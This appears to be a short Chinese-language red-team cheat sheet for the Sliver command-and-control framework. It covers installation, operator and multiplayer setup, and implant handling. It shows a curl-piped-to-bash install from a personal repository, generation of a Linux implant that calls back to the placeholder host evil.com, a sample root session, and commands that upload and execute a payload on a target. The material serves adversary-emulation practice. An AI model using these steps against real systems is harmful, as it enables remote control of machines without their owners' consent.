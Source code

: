 Adversary Emulation Framework.

## 1. Install

安装

```
┌──(sec@debian)-[~]
└─$ curl -fsSL https://github.com/jadensalas469466/script/raw/main/sliver_install.sh | bash
```

## 2. Usage

### 2.1. Server

> 用于与目标建立稳定连接

开机自启

```
┌──(sec@debian)-[~]
└─$ sudo systemctl enable --now sliver.service
```

进入 Server

```
┌──(sec@debian)-[~]
└─$ sliver-server
```

退出 Server

```
[server] sliver > exit
```

### 2.1.1. 连接 Client

开启 `31337` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 31337
```

生成 Client 配置

```
[server] sliver > new-operator -n sec -l evil.com -p 31337
```

开启多端控制

```
[server] sliver > multiplayer
```

查看已加入的控制器

```
[server] sliver > operators
```

### 2.1.2. 连接 Implant

开启 `65135` 端口

```
┌──(sec@debian)-[~]
└─$ sudo ufw allow 65135
```

生成 Implant

```
[server] sliver > generate -o linux -m evil.com:65135
```

监听 Implant

```
[server] sliver > mtls -l 65135
```

查看监听任务

```
[server] sliver > jobs
```

等待目标执行 Implant 后查看会话

```
[server] sliver > sessions

 ID         Transport   Remote Address        Hostname   Username   Operating System   Health
========== =========== ===================== ========== ========== ================== =========
 685a7144   mtls        example.com:32804   morpheus   root       linux/amd64        [ALIVE]
```

进入会话

```
[server] sliver > use  685a7144
```

### 2.2. Client

> 用于在 Client 控制与 Server 建立连接的 Implant

导入 Client 配置文件

```
┌──(sec@debian)-[~]
└─$ sliver-client import ~/.sliver-client/configs/nemo_evil.com.cfg
```

运行 Client

```
┌──(sec@debian)-[~]
└─$ sliver-client
```

查看已加入的控制器

```
[server] sliver > operators
```

退出 Client

```
sliver > exit
```

### 2.3. Implant

断开会话

```
[server] sliver (implant) > close
```

上传本地文件到目标

```
[server] sliver (implant) > upload ./evil ./example
```

添加执行权限

```
[server] sliver (implant) > chmod ./example 755
```

执行程序

```
[server] sliver (implant) > execute ./example
```

---

References

- [sliver](https://github.com/BishopFox/sliver)

